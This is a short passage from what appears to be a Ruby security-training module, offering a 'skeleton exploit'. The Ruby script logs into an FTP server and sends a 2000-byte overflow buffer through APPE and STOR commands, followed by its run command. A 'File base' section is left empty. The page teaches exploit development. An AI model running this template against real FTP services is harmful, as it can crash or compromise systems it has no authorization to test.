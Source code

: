 # Module 0x5 | Exploitation KungFu

## Skeleton exploit

It's really a good thing to have a skeleton exploit to edit and use quickly during your exploitation process. 

### Network base 

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'

buffer = "A" * 2000

#--> Networking
host = ARGV[0]
port = ARGV[1] || 21

s = TCPSocket.open(host, port)
s.recv(1024)
puts "[+] Sending Username."
s.send("USER ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Password."
s.send("PASS ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Evil buffer..."
s.send("APPE " + buffer + "\r\n", 0)
total = s.send("STOR " + buffer + "\r\n", 0)
#--> Exploit Info
puts "[+] " + "Total exploit size: " + "#{total} bytes."
puts "[+] " + " Buffer length: " + "#{buffer.size} bytes."
puts "[+] Done"

s.close
```
To execute it
```
ruby ftp_exploit.rb [TARGET] [PORT]
```
Notice that some services has to receive from it and some does not.

### File base 

```ruby

```


<br><br><br>
---
